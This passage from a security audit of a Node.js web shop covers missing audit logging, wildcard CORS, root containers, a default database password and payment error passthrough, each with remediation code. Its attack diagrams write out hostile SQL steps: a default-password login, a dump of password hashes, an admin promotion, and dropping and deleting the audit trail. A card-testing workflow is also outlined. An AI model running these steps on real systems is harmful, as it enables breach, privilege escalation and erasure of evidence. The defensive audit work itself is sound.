     await knex.schema.createTable('email_verification_tokens', (t) => {
       t.increments('id').primary();
       t.integer('user_id').unsigned().notNullable()
         .references('id').inTable('users').onDelete('CASCADE');
       t.string('token_hash').notNullable().unique();
       t.timestamp('expires_at').notNullable();
       t.timestamp('used_at').nullable();
     });
   };
   ```
2. Validate, normalise and gate in `routes/auth.js` (replacing lines 11-35):
   ```js
   const crypto = require('crypto');
   const email = require('../services/emailClient');
   const sha = (v) => crypto.createHash('sha256').update(v).digest('hex');
   const EMAIL_RE = /^[^@\s]{1,64}@[^@\s.]+(\.[^@\s.]+)+$/;

   router.post('/register', asyncHandler(async (req, res) => {
     const { email: rawEmail, password, full_name } = req.body || {};
     if (typeof rawEmail !== 'string' || !EMAIL_RE.test(rawEmail) || rawEmail.length > 254) {
       return res.status(400).json({ error: 'A valid email address is required' });
     }
     if (typeof password !== 'string' || password.length < 12 || password.length > 128) {
       return res.status(400).json({ error: 'password must be 12-128 characters' });
     }
     if (full_name !== undefined &&
         (typeof full_name !== 'string' || full_name.length > 80 || /[\r\n]/.test(full_name))) {
       return res.status(400).json({ error: 'full_name must be a single line of at most 80 characters' });
     }

     const addr = rawEmail.trim().toLowerCase();   // normalise so casing cannot create a near-duplicate

     // Uniform response: never reveal whether the address was already taken (see F-05 step 4).
     res.status(202).json({ message: 'Check your email to finish creating your account' });

     const existing = await db('users').where({ email: addr }).first();
     if (existing) { await email.sendAlreadyRegistered(addr); return; }

     const [row] = await db('users').insert({
       email: addr, password_hash: await bcrypt.hash(password, 12),
       full_name, role: 'customer', email_verified: false,
     }).returning(['id', 'email']);
     const userId = row.id ?? row;
     await db('carts').insert({ user_id: userId });

     const raw = crypto.randomBytes(32).toString('base64url');
     await db('email_verification_tokens').insert({
       user_id: userId, token_hash: sha(raw),
       expires_at: new Date(Date.now() + 24 * 3600 * 1000),
     });
     await email.sendVerification(addr, raw);
     // NOTE: no token is returned here — the account is not usable until verified.
   }));

   router.post('/verify-email', asyncHandler(async (req, res) => {
     const done = await db.transaction(async (trx) => {
       const row = await trx('email_verification_tokens')
         .where({ token_hash: sha(String((req.body || {}).token || '')) }).forUpdate().first();
       if (!row || row.used_at || new Date(row.expires_at) < new Date()) return false;
       await trx('users').where({ id: row.user_id }).update({ email_verified: true });
       await trx('email_verification_tokens').where({ id: row.id }).update({ used_at: trx.fn.now() });
       return true;
     });
     return done ? res.json({ message: 'Email verified' })
                 : res.status(400).json({ error: 'Invalid or expired verification token' });
   }));
   ```
3. Enforce the gate at login, so a pre-registered account has no session:
   ```js
   if (!user.email_verified) {
     return res.status(403).json({ error: 'email_verification_required' });
   }
   ```
   This is what defeats pre-hijacking: the attacker who registers someone else's address never receives the token, so the placeholder account can never be used, and the real owner can reclaim the address via a resend-verification path.
4. Update `web/src/AuthContext.jsx:24-28` (`register`) to show a check-your-email state instead of expecting a token and user, and add a `/verify-email` route to the SPA.

Why this closes the gap: proof-of-control converts the email from an unvalidated claim into a verified binding, which is a precondition for the F-09 reset flow to be trustworthy at all — a reset link is only a secure recovery channel if the address it goes to was proven to belong to the account holder.

**Mappings.** OWASP Top 10 A07:2021, A04:2021 - OWASP API Top 10 API2:2023, API6:2023 - ASVS v5.0 V2.1 (registration), V2.5 (credential recovery prerequisites), V1.2.3, V5.1.3 (input validation) - CWE-345 (Insufficient Verification of Data Authenticity), CWE-20
**STRIDE.** Spoofing, Repudiation, Tampering

---

### F-14 — No audit logging for role changes, authentication events, or price changes

**Severity: Medium** - Impact 3 - Likelihood 3 - Complexity 2

**Evidence**
- `Node JS/api/src/routes/admin.js:70-78` — privilege escalation with no record of who did it or when:
  ```js
  router.patch('/users/:id/role', asyncHandler(async (req, res) => {
    const { role } = req.body || {};
    if (!['customer', 'admin', 'customer_service'].includes(role)) { /* 400 */ }
    const updated = await db('users').where({ id: req.params.id }).update({ role });
  ```
  There is no `role_changes` table, no `changed_by`, no `previous_role`, and no timestamp — the old value is simply overwritten.
- `Node JS/api/src/routes/admin.js:80-84` — `DELETE /admin/reviews/:id` hard-deletes any review with `.del()` and no record, so moderation is unreviewable and censorship untraceable
- `Node JS/api/src/routes/admin.js:33-50` — price changes record only `updated_by` / `updated_at` on the row itself; the previous `price_cents` is overwritten, so a temporary price manipulation leaves no history
- `Node JS/api/src/routes/auth.js:37-53` — no logging of successful or failed logins, so the F-05 brute force and the F-01 credential abuse are undetectable
- `Node JS/api/src/app.js:31-35` — the only logging in the entire API is `console.error(err)` in the error handler; there is no request logger, no structured logger, and no audit sink
- Correctly present for contrast: `refunds.issued_by` (`cs.js:53`) and `exchanges.processed_by` (`cs.js:78`) do satisfy `DESIGN.md:902`
- `DESIGN.md:891` requires RBAC on every state-changing operation and `DESIGN.md:902` requires auditability of staff actions

**Attack scenario.** The most security-critical state transition in the application — granting `admin` or `customer_service` to an arbitrary user id — produces no audit record whatsoever. This is the persistence mechanism an attacker reaches for immediately after exploiting F-01: forge or log in with an admin token, `PATCH /api/admin/users/42/role` to promote an ordinary-looking account they control, then stop using the forged path. After the JWT secret is rotated, account 42 remains a legitimate admin, and because the previous role was overwritten in place with no history, no query can distinguish it from an admin that was always meant to exist. Responders cannot answer which accounts were promoted, by whom, and when — so the incident cannot be scoped or fully remediated. The same blindness applies to bulk PII reads (F-11), review deletions, and price manipulation, and the total absence of authentication logging means the unlimited credential stuffing in F-05 generates no signal at all.

```mermaid
sequenceDiagram
    actor A as Attacker (forged or seeded admin token)
    participant API as api:3000
    participant DB as postgres
    actor IR as Incident responder
    A->>API: POST /api/auth/register {email:"jdoe@mail.example"} -> user 42
    Note over API: no authentication log written
    A->>API: PATCH /api/admin/users/42/role {"role":"admin"}
    API->>DB: UPDATE users SET role='admin' WHERE id=42
    Note over DB: previous role overwritten; no actor, no timestamp, no history
    API-->>A: 200
    Note over A: later — F-01 secret rotated, all staff passwords changed
    A->>API: POST /api/auth/login (user 42) -> legitimate admin token
    IR->>DB: which accounts were promoted, by whom, when?
    DB-->>IR: unanswerable — backdoor admin survives remediation
```

**Root cause.** The application has no audit-logging facility; security-relevant state changes are applied as destructive in-place updates with no append-only record of the actor, the action, or the prior value.

**Remediation — introduce an append-only audit log (write-once event table) covering all authentication and privileged state-change events, and make role assignment an audited, self-protecting operation.**

1. Migration:
   ```js
   // migrations/20260101000017_create_audit_events.js
   exports.up = async (knex) => {
     await knex.schema.createTable('audit_events', (t) => {
       t.bigIncrements('id').primary();
       t.timestamp('occurred_at').notNullable().defaultTo(knex.fn.now());
       t.integer('actor_user_id').unsigned().nullable().references('id').inTable('users');
       t.string('actor_role');
       t.string('actor_ip');
       t.string('action').notNullable();          // e.g. admin.user.role_change
       t.string('target_type');
       t.string('target_id');
       t.jsonb('before');
       t.jsonb('after');
       t.string('outcome').notNullable();         // success | denied | failure
       t.index(['action', 'occurred_at']);
       t.index(['actor_user_id', 'occurred_at']);
       t.index(['target_type', 'target_id']);
     });
     // Append-only: the API DB role may INSERT and SELECT but never UPDATE or DELETE.
     await knex.raw('CREATE RULE audit_events_no_update AS ON UPDATE TO audit_events DO INSTEAD NOTHING');
     await knex.raw('CREATE RULE audit_events_no_delete AS ON DELETE TO audit_events DO INSTEAD NOTHING');
   };
   ```
2. Helper (`api/src/services/audit.js`):
   ```js
   const db = require('../db/connection');

   async function audit(req, action, opts = {}) {
     const { targetType, targetId, before, after, outcome = 'success' } = opts;
     try {
       await db('audit_events').insert({
         actor_user_id: req.user ? req.user.sub : null,
         actor_role: req.user ? req.user.role : null,
         actor_ip: req.ip,
         action,
         target_type: targetType,
         target_id: targetId != null ? String(targetId) : null,
         before: before ? JSON.stringify(before) : null,
         after: after ? JSON.stringify(after) : null,
         outcome,
       });
     } catch (e) {
       console.error('AUDIT_WRITE_FAILED', action, e);   // never let audit failure mask the action
     }
   }
   module.exports = { audit };
   ```
3. Make role assignment audited and self-protecting (`api/src/routes/admin.js`, replacing lines 70-78):
   ```js
   const { audit } = require('../services/audit');
   const { revokeAll } = require('../services/sessions');

   router.patch('/users/:id/role', asyncHandler(async (req, res) => {
     const { role } = req.body || {};
     if (!['customer', 'admin', 'customer_service'].includes(role)) {
       await audit(req, 'admin.user.role_change',
         { targetType: 'user', targetId: req.params.id, outcome: 'denied' });
       return res.status(400).json({ error: 'Invalid role' });
     }
     // An admin must not silently change their own role (prevents self-lockout and self-escalation games).
     if (String(req.params.id) === String(req.user.sub)) {
       await audit(req, 'admin.user.role_change',
         { targetType: 'user', targetId: req.params.id, outcome: 'denied' });
       return res.status(409).json({ error: 'Cannot change your own role' });
     }

     const out = await db.transaction(async (trx) => {
       const before = await trx('users').where({ id: req.params.id })
         .select('id', 'email', 'role').forUpdate().first();
       if (!before) return null;
       if (before.role === role) return before;

       // Never lose the last admin.
       if (before.role === 'admin' && role !== 'admin') {
         const [{ count }] = await trx('users').where({ role: 'admin' }).count({ count: '*' });
         if (Number(count) <= 1) throw Object.assign(new Error('last_admin'), { httpStatus: 409 });
       }
       await trx('users').where({ id: req.params.id }).update({ role });
       return before;
     });

     if (!out) {
       await audit(req, 'admin.user.role_change',
         { targetType: 'user', targetId: req.params.id, outcome: 'failure' });
       return res.status(404).json({ error: 'User not found' });
     }

     await audit(req, 'admin.user.role_change', {
       targetType: 'user', targetId: out.id,
       before: { role: out.role }, after: { role },
     });
     // Privilege change must take effect promptly despite the stateless access token (F-06).
     await revokeAll(out.id);

     res.json(await db('users').where({ id: req.params.id })
       .select('id', 'email', 'full_name', 'role').first());
   }));
   ```
4. Instrument the remaining security-relevant events: `auth.login.success`, `auth.login.failure`, `auth.login.locked` (`routes/auth.js`); `auth.password_change` and `auth.password_reset` (F-09); `admin.widget.price_change` with before/after `price_cents`; `admin.review.delete` capturing the review body before deletion so moderation is reviewable; `cs.refund.issue`; `cs.exchange.create` and `cs.exchange.transition`; and the staff read events from F-11. Convert `DELETE /admin/reviews/:id` from a hard `.del()` to a soft delete (`deleted_at`, `deleted_by`) so removed content is recoverable for dispute handling.
5. Ship these events off-host to a write-only collector (or a Postgres logical-replication sink the API role cannot reach), so an attacker who reaches the database cannot erase their own trail — the append-only rules above stop the API SQL path, but only off-host shipping survives a full database compromise.

Why this closes the gap: an append-only record of actor, action, target and prior value is what makes the F-01 persistence path detectable and reversible — responders can enumerate every promotion, attribute it, and revert it — and login-event logging turns the currently invisible brute-force traffic of F-05 into an alertable signal.

**Mappings.** OWASP Top 10 A09:2021 Security Logging and Monitoring Failures, A01:2021 - OWASP API Top 10 API8:2023, API5:2023 Broken Function Level Authorization - ASVS v5.0 V7.1.1-V7.1.4 (log content), V7.2.1 (log authentication decisions), V7.2.2 (log access-control failures), V7.3 (log protection), V16.x - NIST SP 800-53 AU-2, AU-3, AU-9 - CWE-778, CWE-117
**STRIDE.** Repudiation, Elevation of Privilege, Tampering

---

### F-15 — Wildcard CORS on the API

**Severity: Low** - Impact 2 - Likelihood 2 - Complexity 4

**Evidence**
- `Node JS/api/src/app.js:16` — `app.use(cors());` with no options, emitting `Access-Control-Allow-Origin: *` on every response, for every route including `/api/admin/*` and `/api/cs/*`
- `Node JS/web/src/api/client.js:24` — the SPA nonetheless sends `credentials: 'include'`, which browsers refuse to combine with a wildcard origin, so this is also latent breakage for the cookie session the design intends (and that F-06 restores)
- `DESIGN.md:930` — presenting `web` and `api` under one origin via the gateway also avoids CORS; the design position is that no cross-origin policy should be needed at all

**Attack scenario.** Because authentication is currently a bearer header rather than a cookie, a wildcard ACAO does **not** by itself let an attacker page ride a victim session — the browser will not attach the token — which is why this is scored Low rather than High. The concrete exploitability today is narrow: any origin can script-read the public catalog and review endpoints (useful for scraping and for building the target lists that feed F-05 and F-13), and error responses become readable cross-origin. The reason it belongs in the report is that it is a misconfiguration primed to become critical: the moment the refresh cookie from F-06 is introduced, a developer hitting the browser wildcard-plus-credentials error will be tempted to fix it with `cors({ origin: true, credentials: true })`, which reflects *any* requesting origin and does grant every website on the internet full authenticated access to the API. Fixing it now, while the correct answer is simply no CORS at all, is much cheaper than fixing it under that pressure.



**Root cause.** A permissive default CORS policy was applied globally instead of the design single-origin model, where no cross-origin access is required.

**Remediation — adopt the design same-origin deployment behind the gateway and remove CORS entirely; if a cross-origin need genuinely arises, use a strict allow-list rather than origin reflection.**

1. Preferred — delete the middleware, since the gateway (F-03) already presents SPA and API on one origin:
   ```js
   // api/src/app.js — remove line 16 and the require on line 2
   // const cors = require('cors');
   // app.use(cors());
   ```
   With one origin there is no preflight and no ACAO header, so there is no policy to get wrong.
2. If a separate front-end origin is unavoidable, use an explicit allow-list — never `origin: true`:
   ```js
   const ALLOWED = (process.env.CORS_ALLOWED_ORIGINS || '').split(',').filter(Boolean);
   app.use(cors({
     origin(origin, cb) {
       if (!origin) return cb(null, false);                 // non-browser callers get no ACAO
       return ALLOWED.includes(origin) ? cb(null, true)
                                       : cb(new Error('Origin not allowed'));
     },
     credentials: true,
     methods: ['GET', 'POST', 'PATCH', 'DELETE'],
     allowedHeaders: ['Content-Type', 'Authorization', 'X-Requested-With'],
     maxAge: 600,
   }));
   app.use((req, res, next) => { res.vary('Origin'); next(); });
   ```
   The closure compares against a configured list and returns false for unknown origins, so no attacker-controlled value is ever echoed back — precisely the failure mode `origin: true` introduces.

Why this closes the gap: same-origin deployment eliminates the cross-origin attack surface rather than trying to police it, and the allow-list form ensures that when the F-06 cookie arrives, credentialed cross-origin access is restricted to origins the operator explicitly named.

**Mappings.** OWASP Top 10 A05:2021, A01:2021 - OWASP API Top 10 API8:2023 - ASVS v5.0 V14.4.2 / V50.5 (CORS configuration), V4.1 - CWE-942 (Permissive Cross-domain Policy), CWE-346
**STRIDE.** Information Disclosure, Spoofing

---

### F-16 — nginx container runs as root; unpinned `npm install` in all three Dockerfiles

**Severity: Low** - Impact 3 - Likelihood 2 - Complexity 2

**Evidence**
- `Node JS/web/Dockerfile:8-11` — the runtime stage never drops privileges (the `nginx:alpine` master process runs as root by default), unlike the API and fauxpay images:
  ```dockerfile
  FROM nginx:1.27-alpine AS runtime
  COPY nginx.conf /etc/nginx/conf.d/default.conf
  COPY --from=build /app/dist /usr/share/nginx/html
  EXPOSE 80
  ```
  Compare `Node JS/api/Dockerfile:9,13` and `Node JS/fauxpay/Dockerfile:9,13`, which correctly `addgroup -S app && adduser -S app -G app` then `USER app`.
- `Node JS/web/Dockerfile:4` — `RUN npm install`; `Node JS/api/Dockerfile:4` and `Node JS/fauxpay/Dockerfile:4` — `RUN npm install --omit=dev`. None uses `npm ci`.
- All three copy the lockfile *optionally* — `COPY package.json package-lock.json* ./` — so a build with no lockfile present succeeds silently and resolves fresh versions
- Every dependency is a caret range (`api/package.json:13-20`: express ^4.19.2, knex ^3.1.0, jsonwebtoken ^9.0.2, bcryptjs ^2.4.3, pg ^8.12.0; `web/package.json:12-19`: react ^18.3.1, react-router-dom ^6.25.1, vite ^5.4.0), so `npm install` may resolve to any newer compatible release at build time
- `Node JS/fauxpay/.dockerignore` — only `node_modules` and `npm-debug.log`; unlike `api/.dockerignore:3-4` it does **not** exclude `.env` / `.env.*`, so any env file placed in `fauxpay/` would be baked into an image layer
- No image scanning, SBOM generation, or dependency-audit step exists in the repo
- `Node JS/api/Dockerfile` copies the whole `src/` tree into the runtime stage, so `src/db/seeds/01_initial_data.js` ships inside the **production** image alongside the `seed` script (`api/package.json:10`). Any actor who can run a command in the stack (`docker compose run --rm api npm run seed`, a compromised CI runner, or an exec into a running container) can both truncate all eleven tables — `users`, `orders`, `payments` included — and plant an `admin`-role account whose password is published in `README.md:20`
- `DESIGN.md:946` and `DESIGN.md:998` — containers run as a non-root user; `DESIGN.md:947` — `.dockerignore` must exclude `.env`

**Attack scenario.** Two independent hygiene defects. First, the internet-facing container — the one process terminating every client connection (F-03) and parsing untrusted HTTP — is the only one running as root, inverting the intended privilege distribution: a memory-safety bug in nginx or a path-traversal in its config becomes root-in-container, from which container-escape primitives and the shared flat Compose network (including the database, F-17) are reachable. Second, non-reproducible builds: `npm install` with caret ranges and an optional lockfile means two builds of the same commit can ship different dependency trees, so a malicious release of any transitive package is pulled in automatically at the next `docker compose up --build` — which `README.md:24` actively instructs operators to run. That is the delivery mechanism for the script-execution scenario in F-10 and, in the `api` image, for direct server-side code execution with access to `JWT_SECRET` and the database. The missing `.env` exclusion in `fauxpay/.dockerignore` is a latent secret-in-image-layer exposure.

A third, lower-rank defect in the same class: development fixtures are packaged into the production runtime image. This is **not** an initial-access vector — it presupposes command execution in the stack, so it is post-compromise privilege consolidation and destructive capability, not a way in (which is why the seeded credential itself is not a finding; see the retired F-02 note in section 4). It nonetheless violates DESIGN 11.7.4's "no dev-only tooling in the runtime stage" and hands an actor who already has a foothold both a data-destruction primitive and a persistent known-password admin.



**Root cause.** The runtime hardening and reproducible-build requirements in DESIGN 11.5 / 11.7.4 were applied to two of three images and omitted from the third, no build step pins or verifies dependency provenance, and the build makes no distinction between application code and development-only fixtures when populating the runtime stage.

**Remediation — apply the rootless, read-only, pinned-and-verified container build pattern: `npm ci` against a committed lockfile with digest-pinned base images, an unprivileged high-port nginx, and read-only root filesystems with dropped capabilities.**

1. Rootless `web` runtime — use the official unprivileged image and a high port:
   ```dockerfile
   # Node JS/web/Dockerfile
   FROM node:20-alpine@sha256:PINME AS build
   WORKDIR /app
   COPY package.json package-lock.json ./       # lockfile REQUIRED, not optional
   RUN npm ci                                    # fails if lockfile is absent or out of sync
   COPY . .
   RUN npm run build

   FROM nginxinc/nginx-unprivileged:1.27-alpine@sha256:PINME AS runtime
   USER nginx
   COPY nginx.conf /etc/nginx/conf.d/default.conf
   COPY --from=build /app/dist /usr/share/nginx/html
   EXPOSE 8080
   ```
   and change `listen 80;` to `listen 8080;` in `web/nginx.conf`, with the gateway proxying to `web:8080`. The unprivileged image runs the master as `nginx`, so a worker compromise yields an unprivileged account rather than root.
2. Pin and verify in `api/Dockerfile` and `fauxpay/Dockerfile`: replace `COPY package.json package-lock.json* ./` with `COPY package.json package-lock.json ./`, replace `RUN npm install --omit=dev` with `RUN npm ci --omit=dev`, and commit both lockfiles. Digest-pin the `node:20-alpine` base in all three images so a retagged upstream cannot change the build.
3. Harden at runtime in `docker-compose.yml` for every service:
   ```yaml
   api:
     read_only: true
     tmpfs: ["/tmp"]
     cap_drop: ["ALL"]
     security_opt: ["no-new-privileges:true"]
     pids_limit: 256
     mem_limit: 512m
   web:
     read_only: true
     tmpfs: ["/tmp", "/var/cache/nginx", "/var/run"]
     cap_drop: ["ALL"]
     security_opt: ["no-new-privileges:true"]
   ```
   A read-only root filesystem with all capabilities dropped and `no-new-privileges` means even successful code execution cannot persist a payload or regain privilege inside the container.
4. Fix `fauxpay/.dockerignore` to match `api/.dockerignore` by adding `.env` and `.env.*`.
5. Add supply-chain gates to CI: `npm audit --audit-level=high` (fail the build), `npm ci --ignore-scripts` where install scripts are not required, Dependabot or Renovate for controlled upgrades, an SBOM per image, and a vulnerability scan such as `trivy image --exit-code 1 --severity HIGH,CRITICAL` before push.

Why this closes the gap: `npm ci` against a committed lockfile makes the dependency tree byte-identical on every build, so a malicious upstream release cannot enter silently and must instead appear as a reviewable lockfile diff; and running the internet-facing proxy unprivileged with no capabilities and a read-only filesystem removes the root-in-container blast radius that currently follows from any nginx-level compromise.

**Mappings.** OWASP Top 10 A06:2021 Vulnerable and Outdated Components, A05:2021, A08:2021 Software and Data Integrity Failures - OWASP API Top 10 API8:2023 - ASVS v5.0 V1.14 (configuration architecture), V14.1 (build and deploy), V14.2 (dependency management), V6.4 - NIST SP 800-190, SSDF PO.3/PW.4 - CWE-250, CWE-1104, CWE-1395
**STRIDE.** Elevation of Privilege, Tampering, Information Disclosure

---

### F-17 — Weak default database password baked into `docker-compose.yml`

**Severity: Low** - Impact 3 - Likelihood 2 - Complexity 2

**Evidence**
- `Node JS/docker-compose.yml:39-41` — credentials silently default to a published, guessable value when `.env` is absent or incomplete:
  ```yaml
  POSTGRES_DB: ${DB_NAME:-widgetshop}
  POSTGRES_USER: ${DB_USER:-widgetshop}
  POSTGRES_PASSWORD: ${DB_PASSWORD:-widgetshop}
  ```
- `Node JS/api/src/db/knexfile.js:10` — the client mirrors the same fallback, so the app connects successfully with it and nothing surfaces the misconfiguration: `password: process.env.DB_PASSWORD || 'widgetshop',`
- `Node JS/.env.example:4` and `Node JS/.env:4` — `DB_PASSWORD=change-me`, another known value that `README.md:8` makes the default for real deployments
- The single application DB role is the Postgres **superuser** created by `POSTGRES_USER`; there is no restricted application role, and `api` and `migrate` share it (`docker-compose.yml:26-34`), so the runtime connection has DDL rights
- `DESIGN.md:982` specifies `POSTGRES_PASSWORD_FILE: /run/secrets/db_password` (Docker secrets), not an inline environment default; `DESIGN.md:997` — no secret values baked into images, all injected at runtime

**Mitigating context (why Low, not High).** `docker-compose.yml:49-50` uses `expose: ["5432"]`, not `ports:`, so the database is genuinely not published to the host — this part of `DESIGN.md:928` is correctly implemented and there is no direct internet path to port 5432. Exploitation therefore requires prior access to the Compose network.

**Attack scenario.** The database password is the last barrier once an attacker has any foothold on the container network — which F-16 (root on the internet-facing nginx), a compromised dependency in `api`, or any other container-network access provides. Because both the compose default (`widgetshop`) and the documented `.env` value (`change-me`) are published in the repository, that barrier is effectively absent: the attacker connects to `db:5432` and authenticates on the first guess. Since the role is the superuser they get more than data — full DDL, every `password_hash` for offline cracking, the ability to rewrite `users.role` to grant themselves admin (bypassing every check added in F-01), tampering with `orders` and `refunds` for fraud, and dropping the schema or disabling the audit rules from F-14. The flat single Compose network (no `networks:` key is declared at all, so all four services share one bridge) means any container can reach the database directly, with no need to traverse `api`.

```mermaid
sequenceDiagram
    actor A as Attacker with any container-network foothold (F-16)
    participant R as Repo
    participant DB as db:5432 (superuser role)
    A->>R: read docker-compose.yml + .env.example
    R-->>A: DB_USER=widgetshop, DB_PASSWORD default widgetshop / change-me
    A->>DB: psql -h db -U widgetshop   (flat network, no segmentation)
    DB-->>A: authenticated as SUPERUSER
    A->>DB: SELECT email, password_hash FROM users
    A->>DB: UPDATE users SET role='admin' WHERE id=42
    A->>DB: DROP RULE audit_events_no_delete ON audit_events; DELETE FROM audit_events
    Note over DB: full data breach + privilege escalation + trail erased
```

**Root cause.** Database credentials have committed, guessable fallback values in both the orchestration file and the application config, and the single shared role is a superuser on a flat, unsegmented network.

**Remediation — Docker secrets with fail-closed configuration and a least-privilege application role on an internal-only network, as the design specifies.**

1. Remove every fallback so a missing secret is a hard failure rather than a weak default (`docker-compose.yml`):
   ```yaml
   services:
     db:
       image: postgres:16-alpine
       environment:
         POSTGRES_DB: ${DB_NAME:?DB_NAME is required}
         POSTGRES_USER: ${DB_USER:?DB_USER is required}
         POSTGRES_PASSWORD_FILE: /run/secrets/db_password
       secrets: [db_password]
       volumes:
         - db_data:/var/lib/postgresql/data
         - ./db/init:/docker-entrypoint-initdb.d:ro
       expose: ["5432"]
       networks: [backend]
     api:
       environment:
         DB_PASSWORD_FILE: /run/secrets/app_db_password
       secrets: [app_db_password]
       networks: [edge, backend]
   secrets:
     db_password:     { file: ./secrets/db_password }
     app_db_password: { file: ./secrets/app_db_password }
   networks:
     edge:
     backend:
       internal: true          # no route off-host at all
   ```
   The `:?` substitution makes Compose refuse to start rather than substitute a known value, and `internal: true` satisfies `DESIGN.md:928` structurally.
2. Fail closed in the application config too (`api/src/db/knexfile.js`, replacing lines 3-11):
   ```js
   const fs = require('fs');

   function secret(name) {
     const file = process.env[name + '_FILE'];
     const value = file ? fs.readFileSync(file, 'utf8').trim() : process.env[name];
     if (!value) { console.error('FATAL: ' + name + ' is required'); process.exit(1); }
     return value;
   }

   module.exports = {
     client: 'pg',
     connection: {
       host: process.env.DB_HOST || 'localhost',
       port: Number(process.env.DB_PORT || 5432),
       database: secret('DB_NAME'),
       user: secret('DB_USER'),
       password: secret('DB_PASSWORD'),
       ssl: process.env.DB_SSL === 'true' ? { rejectUnauthorized: true } : false,
     },
     pool: { min: 2, max: 10 },
     migrations: { directory: __dirname + '/migrations' },
     seeds: { directory: __dirname + '/seeds' },
   };
   ```
   No hardcoded fallback remains anywhere, so a misconfigured deployment cannot start with a known credential.
3. Split the roles so the long-running API cannot perform DDL (`db/init/01-roles.sql`, run once by the Postgres entrypoint):
   ```sql
   CREATE ROLE widgetshop_app LOGIN PASSWORD 'from-secret-file';
   REVOKE ALL ON SCHEMA public FROM PUBLIC;
   GRANT USAGE ON SCHEMA public TO widgetshop_app;
   GRANT SELECT, INSERT, UPDATE, DELETE ON ALL TABLES IN SCHEMA public TO widgetshop_app;
   GRANT USAGE, SELECT ON ALL SEQUENCES IN SCHEMA public TO widgetshop_app;
   ALTER DEFAULT PRIVILEGES IN SCHEMA public
     GRANT SELECT, INSERT, UPDATE, DELETE ON TABLES TO widgetshop_app;
   -- audit_events stays append-only even for the app role (F-14)
   REVOKE UPDATE, DELETE ON audit_events FROM widgetshop_app;
   ```
   Point `api` at `widgetshop_app` and keep the owner/superuser role exclusively for the one-shot `migrate` service. A compromised `api` can then read and write rows but cannot drop tables, alter the schema, or remove the audit rules.
4. Generate the secret files per environment (`openssl rand -base64 36 > secrets/db_password`), add `secrets/` to `.gitignore`, blank the `DB_PASSWORD` value in `.env.example`, and enable `DB_SSL=true` with `rejectUnauthorized` so the api-to-db hop is encrypted (currently cleartext, TB4).

Why this closes the gap: fail-closed variable substitution means there is no known-value path to authenticate with at all, and the least-privilege application role bounds what an attacker who does obtain the app credential can do — specifically preventing the schema destruction and audit-trail erasure that a superuser connection currently permits.

**Mappings.** OWASP Top 10 A05:2021, A02:2021, A07:2021 - OWASP API Top 10 API8:2023 - ASVS v5.0 V6.4.1 (secret storage), V6.4.2, V1.14, V8.3 (database security), V9.1 - NIST SP 800-53 IA-5, SC-28, AC-6 - CWE-1392, CWE-521, CWE-250
**STRIDE.** Spoofing, Information Disclosure, Elevation of Privilege, Tampering

---

### F-18 — Payment-processor error strings echoed to the client

**Severity: Low** - Impact 1 - Likelihood 3 - Complexity 5

**Evidence**
- `Node JS/api/src/routes/orders.js:73` — the processor error text is relayed verbatim to the caller:
  ```js
  return res.status(payErrorStatus(err)).json({ error: 'Payment failed', detail: err.data?.error });
  ```
- `Node JS/api/src/routes/cs.js:48` — same pattern on the refund path:
  ```js
  return res.status(502).json({ error: 'Refund failed at processor', detail: err.data?.error });
  ```
- `Node JS/api/src/services/fauxpayClient.js:14-19` — `err.data` is the processor entire parsed JSON response body, so whatever the upstream chooses to include is passed through
- `Node JS/api/src/routes/orders.js:96-98` — `payErrorStatus` additionally distinguishes 4xx (mapped to 402) from 5xx (mapped to 502), leaking whether the failure was client-side or processor-side
- Correctly handled for contrast: the global error handler at `Node JS/api/src/app.js:31-35` logs server-side and returns only a generic message, so unhandled exceptions and stack traces are **not** disclosed

**Attack scenario.** This is a genuine but minor information leak rather than a stack-trace disclosure. The distinguishable responses turn checkout into a low-grade oracle about the processor internal state: with FauxPay, `detail: "Unknown card_token"` (`fauxpay/src/server.js:46`) confirms whether a supplied token was ever issued, and the amount-validation message (`:48`) reveals upstream validation rules. Against a real gateway the same passthrough would relay decline reasons — insufficient_funds, card_declined, do_not_honor, AVS/CVV mismatch detail — which is precisely the feedback a carding operation uses to triage stolen cards, and is unnecessary information for the legitimate customer. Combined with the unauthenticated, unthrottled tokenization endpoint in F-04 and the absence of rate limiting in F-05, this closes the loop on a usable card-testing workflow. The 402-versus-502 split also helps an attacker confirm the deterministic failure path that F-07 relies on.

```mermaid
sequenceDiagram
    actor A as Attacker (registered customer)
    participant API as api:3000
    participant P as Payment processor
    loop probe tokens and amounts — no rate limit (F-05)
        A->>API: POST /api/orders {card_token: candidate}
        API->>P: POST /charge
        P-->>API: 400 {error: "Unknown card_token"}
        API-->>A: 402 {error:"Payment failed", detail:"Unknown card_token"}
        Note over A: upstream state disclosed;<br/>402 vs 502 also reveals client- vs processor-side failure
    end
    Note over A: with a real gateway the same passthrough<br/>relays decline reasons -> card-testing triage (F-04)
```

**Root cause.** Upstream error detail is forwarded to untrusted callers instead of being logged server-side and mapped to a small set of safe, customer-appropriate outcomes.

**Remediation — server-side error mapping with a correlation ID: log the full upstream detail internally, return only a coarse mapped reason plus an opaque reference the customer can quote to support.**

1. Add the mapper (`api/src/services/paymentErrors.js`):
   ```js
   const crypto = require('crypto');

   // Only these coarse outcomes are ever exposed. Anything unrecognised becomes 'declined'.
   const SAFE = {
     insufficient_funds: { status: 402, reason: 'declined' },
     card_declined:      { status: 402, reason: 'declined' },
     expired_card:       { status: 402, reason: 'card_expired' },
     invalid_card:       { status: 402, reason: 'card_invalid' },
   };

   function mapPaymentError(err, req, context) {
     const correlationId = crypto.randomUUID();
     // Full upstream detail goes to the log, never to the client.
     console.error(JSON.stringify({
       level: 'error', event: 'payment_error', correlationId, context,
       actor: req.user ? req.user.sub : null,
       upstreamStatus: err.status || null,
       upstreamBody: err.data || null,
     }));
     const code = err.data && typeof err.data.code === 'string' ? err.data.code : null;
     const mapped = (code && SAFE[code]) ||
       (err.status >= 400 && err.status < 500
         ? { status: 402, reason: 'declined' }
         : { status: 502, reason: 'processor_unavailable' });
     return {
       status: mapped.status,
       body: { error: 'Payment could not be completed', reason: mapped.reason,
               correlation_id: correlationId },
     };
   }
   module.exports = { mapPaymentError };
   ```
2. Use it on both paths, removing the `detail` passthrough:
   ```js
   // api/src/routes/orders.js — replaces line 73
   const { status, body } = mapPaymentError(err, req, { orderId: order.id });
   return res.status(status).json(body);
   ```
   ```js
   // api/src/routes/cs.js — replaces line 48
   const { status, body } = mapPaymentError(err, req, { orderId: req.params.id, action: 'refund' });
   return res.status(status).json(Object.assign({}, body, { error: 'Refund could not be completed' }));
   ```
